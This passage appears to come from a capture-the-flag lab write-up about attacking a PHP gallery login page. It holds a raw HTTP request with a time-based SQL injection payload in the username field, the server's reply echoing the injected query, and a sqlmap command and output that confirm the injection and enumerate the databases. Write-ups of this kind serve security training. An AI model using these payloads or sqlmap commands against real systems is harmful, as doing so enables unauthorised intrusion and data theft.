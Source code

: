   ```
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Content-Type: application/x-www-form-urlencoded; charset=UTF-8
  X-Requested-With: XMLHttpRequest
  Content-Length: 39
  Origin: http://10.10.192.6
  Connection: keep-alive
  Referer: http://10.10.192.6/gallery/login.php
  Cookie: PHPSESSID=1tag32c78uqqivgktnlj39n92c
  Priority: u=0
  
  username='oR sLEeP(10);#&password=bimbo
  
  Response:
  
  HTTP/1.1 200 OK
  Date: Thu, 29 May 2025 18:35:31 GMT
  Server: Apache/2.4.29 (Ubuntu)
  Expires: Thu, 19 Nov 1981 08:52:00 GMT
  Cache-Control: no-store, no-cache, must-revalidate
  Pragma: no-cache
  Vary: Accept-Encoding
  Content-Length: 119
  Keep-Alive: timeout=5, max=100
  Connection: Keep-Alive
  Content-Type: text/html; charset=UTF-8
  
  {"status":"incorrect","last_qry":"SELECT * from users where username = ''oR sLEeP(10);#' and password = md5('bimbo') "}
  
  457 bytes | 11.054 ms
  ```
  
- Let's try `sqlmap` as well.

  ```
  sqlmap -u "http://10.10.192.6/gallery/classes/Login.php?f=login" --data "username=admin&password=123456" --dbs --batch 

  [19:38:19] [INFO] checking if the injection point on POST parameter 'username' is a false positive
  POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
  sqlmap identified the following injection point(s) with a total of 157 HTTP(s) requests:
  ---
  Parameter: username (POST)
      Type: time-based blind
      Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
      Payload: username=admin' AND (SELECT 9650 FROM (SELECT(SLEEP(5)))IdUr) AND 'uVbd'='uVbd&password=123456
  ---
  [19:38:34] [INFO] the back-end DBMS is MySQL
  [19:38:34] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
  do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
  web server operating system: Linux Ubuntu 18.04 (bionic)
  web application technology: Apache 2.4.29, PHP
  back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
  [19:38:39] [INFO] fetching database names
  [19:38:39] [INFO] fetching number of databases
  [19:38:39] [INFO] retrieved: 
  [19:38:49] [INFO] adjusting time delay to 1 second due to good response times
  2
  [19:38:50] [INFO] retrieved: gallery_db
  ```